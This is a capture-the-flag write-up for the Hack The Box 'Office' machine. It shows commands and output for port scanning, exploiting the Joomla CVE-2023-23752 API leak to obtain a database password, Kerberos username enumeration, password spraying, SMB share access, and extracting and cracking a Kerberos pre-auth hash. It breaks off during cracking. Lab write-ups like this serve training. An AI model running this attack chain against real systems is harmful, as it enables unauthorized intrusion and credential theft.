

# Office


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.3 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-08 16:48 CET
Initiating SYN Stealth Scan at 16:48
Scanning 10.10.11.3 [65535 ports]
Discovered open port 443/tcp on 10.10.11.3
Discovered open port 53/tcp on 10.10.11.3
Discovered open port 139/tcp on 10.10.11.3
Discovered open port 80/tcp on 10.10.11.3
Discovered open port 445/tcp on 10.10.11.3
Discovered open port 3268/tcp on 10.10.11.3
Discovered open port 62168/tcp on 10.10.11.3
SYN Stealth Scan Timing: About 23.88% done; ETC: 16:50 (0:01:39 remaining)
Discovered open port 9389/tcp on 10.10.11.3
Discovered open port 49668/tcp on 10.10.11.3
Discovered open port 3269/tcp on 10.10.11.3
Discovered open port 62203/tcp on 10.10.11.3
SYN Stealth Scan Timing: About 52.24% done; ETC: 16:50 (0:00:56 remaining)
Discovered open port 636/tcp on 10.10.11.3
Discovered open port 5985/tcp on 10.10.11.3
Discovered open port 62187/tcp on 10.10.11.3
Discovered open port 593/tcp on 10.10.11.3
Discovered open port 88/tcp on 10.10.11.3
Discovered open port 62180/tcp on 10.10.11.3
Discovered open port 464/tcp on 10.10.11.3
Discovered open port 49664/tcp on 10.10.11.3
Discovered open port 389/tcp on 10.10.11.3
Completed SYN Stealth Scan at 16:49, 102.33s elapsed (65535 total ports)
Nmap scan report for 10.10.11.3
Host is up, received user-set (0.037s latency).
Scanned at 2025-02-08 16:48:09 CET for 102s
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
443/tcp   open  https            syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49668/tcp open  unknown          syn-ack ttl 127
62168/tcp open  unknown          syn-ack ttl 127
62180/tcp open  unknown          syn-ack ttl 127
62187/tcp open  unknown          syn-ack ttl 127
62203/tcp open  unknown          syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 102.43 seconds
           Raw packets sent: 131121 (5.769MB) | Rcvd: 165 (11.522KB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.3
	[*] Open ports: 53,80,88,139,389,443,445,464,593,636,3268,3269,5985,9389,49664,49668,62168,62180,62187,62203

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p53,80,88,139,389,443,445,464,593,636,3268,3269,5985,9389,49664,49668,62168,62180,62187,62203 10.10.11.3 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-08 16:50 CET
Nmap scan report for DC.office.htb (10.10.11.3)
Host is up (0.065s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-title: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-08 23:51:21Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-08T23:52:56+00:00; +8h00m27s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
443/tcp   open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: 2025-02-08T23:52:55+00:00; +8h00m26s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: 2025-02-08T23:52:55+00:00; +8h00m27s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-08T23:52:56+00:00; +8h00m27s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
62168/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
62180/tcp open  msrpc         Microsoft Windows RPC
62187/tcp open  msrpc         Microsoft Windows RPC
62203/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: DC, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-08T23:52:15
|_  start_date: N/A
|_clock-skew: mean: 8h00m26s, deviation: 0s, median: 8h00m26s

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   89.55 ms 10.10.16.1
2   89.65 ms DC.office.htb (10.10.11.3)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.03 seconds

```


```bash
❯ xsltproc targetedXML > index.html
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ cat /etc/hosts | grep office.htb
10.10.11.3 DC.office.htb office.htb
```


```bash
❯ nxc smb 10.10.11.3
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)

❯ ldapsearch -x -H ldap://10.10.11.3 -s base | grep defaultNamingContext
defaultNamingContext: DC=office,DC=htb
```


```bash
❯ nxc smb 10.10.11.3 -u 'guest' -p ''
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\guest: STATUS_ACCOUNT_DISABLED 
```


```bash
❯ sudo NSrpcenum -e DUsers -i 10.10.11.3

[!] Error: Access Denied
```


```bash
❯ whatweb http://office.htb
http://office.htb [200 OK] Apache[2.4.56], Cookies[3815f63d17a9109b26eb1b8c114159ac], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28], HttpOnly[3815f63d17a9109b26eb1b8c114159ac], IP[10.10.11.3], MetaGenerator[Joomla! - Open Source Content Management], OpenSSL[1.1.1t], PHP[8.0.28], PasswordField[password], PoweredBy[the], Script[application/json,application/ld+json,module], Title[Home], UncommonHeaders[referrer-policy,cross-origin-opener-policy], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/8.0.28]
```


```bash
❯ dirsearch -u 'http://office.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Windows/AD/Office/Office/content/reports/http_office.htb/_25-02-08_16-54-30.txt

Target: http://office.htb/

[16:54:30] Starting: 
[16:54:46] 200 -    1KB - /administrator/includes/
[16:54:46] 200 -   31B  - /administrator/cache/
[16:54:46] 200 -   31B  - /administrator/logs/
[16:54:47] 200 -   12KB - /administrator/
[16:54:47] 200 -   12KB - /administrator/index.php
[16:54:51] 200 -   31B  - /cache/
[16:54:51] 200 -    2KB - /cgi-bin/printenv.pl
[16:54:52] 200 -   31B  - /cli/
[16:54:52] 200 -   31B  - /components/
[16:54:53] 200 -    0B  - /configuration.php
[16:55:02] 200 -    7KB - /htaccess.txt
[16:55:03] 200 -   31B  - /images/
[16:55:03] 200 -   31B  - /includes/
[16:55:05] 200 -   24KB - /index.php
[16:55:05] 200 -   24KB - /index.php.
[16:55:06] 200 -   31B  - /layouts/
[16:55:07] 200 -   18KB - /license.txt
[16:55:07] 200 -   18KB - /LICENSE.txt
[16:55:09] 200 -   31B  - /media/
[16:55:11] 200 -   31B  - /modules/
[16:55:18] 200 -   31B  - /plugins/
[16:55:20] 200 -    5KB - /README.TXT
[16:55:20] 200 -    5KB - /Readme.txt
[16:55:20] 200 -    5KB - /ReadMe.txt
[16:55:20] 200 -    5KB - /readme.txt
[16:55:20] 200 -    5KB - /README.txt
[16:55:22] 200 -  764B  - /robots.txt
[16:55:29] 200 -   31B  - /templates/
[16:55:29] 200 -   31B  - /templates/index.html
[16:55:29] 200 -    0B  - /templates/system/
[16:55:30] 200 -   31B  - /tmp/
[16:55:34] 200 -    3KB - /web.config.txt

Task Completed
```


```bash
❯ curl -s -X GET 'http://office.htb/robots.txt'
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```


<figure><figcaption></figcaption></figure>


```bash
❯ whatweb http://office.htb/administrator
http://office.htb/administrator [301 Moved Permanently] Apache[2.4.56], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28], IP[10.10.11.3], OpenSSL[1.1.1t], PHP[8.0.28], RedirectLocation[http://office.htb/administrator/], Title[301 Moved Permanently]
http://office.htb/administrator/ [200 OK] Apache[2.4.56], Bootstrap, Cookies[770f5c99f1b67a1cc480471651b7d9b3], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28], HttpOnly[770f5c99f1b67a1cc480471651b7d9b3], IP[10.10.11.3], MetaGenerator[Joomla! - Open Source Content Management], OpenSSL[1.1.1t], PHP[8.0.28], Script[application/json,module], Title[Holography Industries - Administration], UncommonHeaders[referrer-policy,cross-origin-opener-policy], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/8.0.28]// Some code
```


<figure><figcaption></figcaption></figure>





<figure><figcaption></figcaption></figure>


```bash
❯ curl -s -X GET 'http://office.htb/administrator/manifests/files/joomla.xml' | grep '<version>'
<version>4.2.7</version>
```


```bash
❯ joomscan --url http://office.htb

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://office.htb ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.7

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://office.htb/administrator/components
http://office.htb/administrator/modules
http://office.htb/administrator/templates
http://office.htb/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://office.htb/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://office.htb/robots.txt 

Interesting path found from robots.txt
http://office.htb/joomla/administrator/
http://office.htb/administrator/
http://office.htb/api/
http://office.htb/bin/
http://office.htb/cache/
http://office.htb/cli/
http://office.htb/components/
http://office.htb/includes/
http://office.htb/installation/
http://office.htb/language/
http://office.htb/layouts/
http://office.htb/libraries/
http://office.htb/logs/
http://office.htb/modules/
http://office.htb/plugins/
http://office.htb/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/office.htb/
```


{% embed url="https://luisfelipesec.medium.com/cve-2023-23752-joomla-acesso-impr%C3%B3prio-de-arquivos-n%C3%A3o-autorizados-553d7e92d399" %}


```bash
❯ curl -s -X GET 'http://office.htb/api/index.php/v1/users?public=true' | jq
{
  "links": {
    "self": "http://office.htb/api/index.php/v1/users?public=true"
  },
  "data": [
    {
      "type": "users",
      "id": "474",
      "attributes": {
        "id": 474,
        "name": "Tony Stark",
        "username": "Administrator",
        "email": "Administrator@holography.htb",
        "block": 0,
        "sendEmail": 1,
        "registerDate": "2023-04-13 23:27:32",
        "lastvisitDate": "2024-01-24 13:00:47",
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Super Users"
      }
    }
  ],
  "meta": {
    "total-pages": 1
  }
}
```


```bash
❯ curl -s -X GET 'http://office.htb/api/index.php/v1/config/application?public=true' | jq
{
  "links": {
    "self": "http://office.htb/api/index.php/v1/config/application?public=true",
    "next": "http://office.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://office.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [  
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "dbtype": "mysqli",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "host": "localhost",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "root",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "H0lOgrams4reTakIng0Ver754!",
        "id": 224
      }
    }
...[snip]...
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
--2025-02-08 17:11:16--  https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Resolviendo gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Conectando con gist.githubusercontent.com (gist.githubusercontent.com)[185.199.111.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 2086 (2,0K) [text/plain]
Grabando a: «namemash.py»

namemash.py                                               100%[===================================================================================================================================>]   2,04K  --.-KB/s    en 0s      

2025-02-08 17:11:17 (20,9 MB/s) - «namemash.py» guardado [2086/2086]

❯ echo 'Tony Stark' > employees.txt
❯ python3 namemash.py employees.txt > possible_users.txtas
```


```bash
❯ kerbrute userenum --dc 10.10.11.3 -d office.htb possible_users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/08/25 - Ronnie Flathers @ropnop

2025/02/08 17:12:15 >  Using KDC(s):
2025/02/08 17:12:15 >  	10.10.11.3:88

2025/02/08 17:12:15 >  [+] VALID USERNAME:	tstark@office.htb
2025/02/08 17:12:15 >  Done! Tested 11 usernames (1 valid) in 0.176 seconds

❯ echo 'tstark' > users.txt
```


```bash
❯ nxc smb 10.10.11.3 -u 'tstark' -p 'H0lOgrams4reTakIng0Ver754!'
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\tstark:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
```


```bash
❯ kerbrute userenum --dc 10.10.11.3 -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt;

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/08/25 - Ronnie Flathers @ropnop

2025/02/08 17:15:23 >  Using KDC(s):
2025/02/08 17:15:23 >  	10.10.11.3:88

2025/02/08 17:15:40 >  [+] VALID USERNAME:	administrator@office.htb
2025/02/08 17:17:25 >  [+] VALID USERNAME:	Administrator@office.htb
2025/02/08 17:18:15 >  [+] VALID USERNAME:	etower@office.htb
2025/02/08 17:18:15 >  [+] VALID USERNAME:	ewhite@office.htb
2025/02/08 17:18:16 >  [+] VALID USERNAME:	dwolfe@office.htb
2025/02/08 17:18:16 >  [+] VALID USERNAME:	dlanor@office.htb
2025/02/08 17:18:16 >  [+] VALID USERNAME:	dmichael@office.htb
```


```bash
❯ catnp users2.txt
2025/02/08 17:15:40 >  [+] VALID USERNAME:	administrator@office.htb
2025/02/08 17:17:25 >  [+] VALID USERNAME:	Administrator@office.htb
2025/02/08 17:18:15 >  [+] VALID USERNAME:	etower@office.htb
2025/02/08 17:18:15 >  [+] VALID USERNAME:	ewhite@office.htb
2025/02/08 17:18:16 >  [+] VALID USERNAME:	dwolfe@office.htb
2025/02/08 17:18:16 >  [+] VALID USERNAME:	dlanor@office.htb
2025/02/08 17:18:16 >  [+] VALID USERNAME:	dmichael@office.htb
❯ catnp users2.txt | rev | awk '{print $1}' | rev | awk '{print $1}' FS='@' >> users.txt
❯ catnp users.txt
tstark
administrator
Administrator
etower
ewhite
dwolfe
dlanor
dmichael
```


```bash
❯ nxc smb 10.10.11.3 -u users.txt -p 'H0lOgrams4reTakIng0Ver754!' --continue-on-success
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\tstark:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\Administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\etower:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.10.11.3      445    DC               [-] office.htb\dlanor:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
```


```bash
❯ nxc ldap 10.10.11.3 -u 'dwolfe' -p 'H0lOgrams4reTakIng0Ver754!' --users
LDAP        10.10.11.3      389    10.10.11.3       [-] Error retrieving os arch of 10.10.11.3: Could not connect: timed out
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.3      636    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
LDAPS       10.10.11.3      636    DC               [*] Enumerated 12 domain users: office.htb
LDAPS       10.10.11.3      636    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAPS       10.10.11.3      636    DC               Administrator                 2023-05-10 19:00:50 0       Built-in account for administering the computer/domain      
LDAPS       10.10.11.3      636    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAPS       10.10.11.3      636    DC               krbtgt                        2023-04-14 22:14:59 0       Key Distribution Center Service Account                     
LDAPS       10.10.11.3      636    DC               PPotts                        2023-05-02 22:44:57 0                                                                   
LDAPS       10.10.11.3      636    DC               HHogan                        2023-05-06 18:59:34 2                                                                   
LDAPS       10.10.11.3      636    DC               EWhite                        2023-05-08 00:06:54 1                                                                   
LDAPS       10.10.11.3      636    DC               etower                        2023-05-08 00:07:38 1                                                                   
LDAPS       10.10.11.3      636    DC               dwolfe                        2023-05-08 00:09:54 0                                                                   
LDAPS       10.10.11.3      636    DC               dmichael                      2023-05-08 00:09:01 1                                                                   
LDAPS       10.10.11.3      636    DC               dlanor                        2023-05-08 00:09:24 1                                                                   
LDAPS       10.10.11.3      636    DC               tstark                        2023-05-09 01:32:00 1                                                                   
LDAPS       10.10.11.3      636    DC               web_account                   2024-01-17 17:51:08 0  
```


```bash
❯ cat users.txt
administrator
dlanor
dmichael
dwolfe
etower
ewhite
hhogan
ppots
tstark
```


```bash
❯ nxc smb 10.10.11.3 -u users.txt -p 'H0lOgrams4reTakIng0Ver754!' --continue-on-success
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dlanor:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.10.11.3      445    DC               [-] office.htb\etower:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\hhogan:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\ppots:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\tstark:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
```


```bash
❯ nxc smb 10.10.11.3 -u 'dwolfe' -p 'H0lOgrams4reTakIng0Ver754!' --shares
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.10.11.3      445    DC               [*] Enumerated shares
SMB         10.10.11.3      445    DC               Share           Permissions     Remark
SMB         10.10.11.3      445    DC               -----           -----------     ------
SMB         10.10.11.3      445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.3      445    DC               C$                              Default share
SMB         10.10.11.3      445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.3      445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.3      445    DC               SOC Analysis    READ            
SMB         10.10.11.3      445    DC               SYSVOL          READ            Logon server share 
```


```bash
❯ sudo mount -t cifs -o username='dwolfe',password='H0lOgrams4reTakIng0Ver754!' '//10.10.11.3/SOC Analysis' /mnt/shares

❯ ls -l /mnt/shares
.rwxr-xr-x root root 1.3 MB Mon May  8 02:59:00 2023  Latest-System-Dump-8fbc124d.pcap

❯ cp /mnt/shares/Latest-System-Dump-8fbc124d.pcap .

❯ file Latest-System-Dump-8fbc124d.pcap
Latest-System-Dump-8fbc124d.pcap: pcapng capture file - version 1.0
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>





<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>



```bash
 $krb5pa$23$user$realm$salt$4e751db65422b2117f7eac7b721932dc8aa0d9966785ecd958f971f622bf5c42dc0c70b532363138363631363132333238383835 
```

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```


```bash
❯ hashid '$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc'
Analyzing '$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc'
[+] Kerberos 5 AS-REQ Pre-Auth 

❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

19900 | Kerberos 5, etype 18, Pre-Auth | Network Protocol

...[snip]...

